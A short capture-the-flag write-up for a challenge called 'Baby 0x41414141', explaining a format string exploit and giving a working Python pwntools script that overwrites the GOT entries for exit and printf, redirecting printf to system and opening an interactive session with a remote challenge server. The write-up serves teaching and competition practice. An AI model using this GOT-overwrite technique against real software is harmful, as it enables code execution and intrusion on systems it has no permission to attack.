 # Baby 0x41414141
#### wparks

This problem is a straight forward format string problem. It takes our input,
sprintfs it to a buffer, and calls printf on it. Our exploit will be in two parts.


First, we will overwrite the final call to exit to point earlier in the main, allowing
multiple rounds of format string fun.

Second, we will overwrite the got entry for printf with the address of system,
allowing execution of our input. Later analysis showed there was a print flag function
the whole time, but this way is just as easy.

```python
from pwn import *
from libformatstr import FormatStr
OFFSET = 10
SYSTEM = 0x08048570
EXIT = 0x0804a034
PRINTF = 0x0804a02c
MAIN_GETS = 0x0804876c

#r = remote("localhost", 2015)
r = remote("163.172.176.29", 9035)
print r.recv(1024)

p = FormatStr()
p[EXIT] = MAIN_GETS
p[PRINTF] = SYSTEM
payload = p.payload(10, start_len=70)
raw_input("wait")
r.send(payload +"\n")
#At this point, we have a successful loop back around

r.interactive()

```
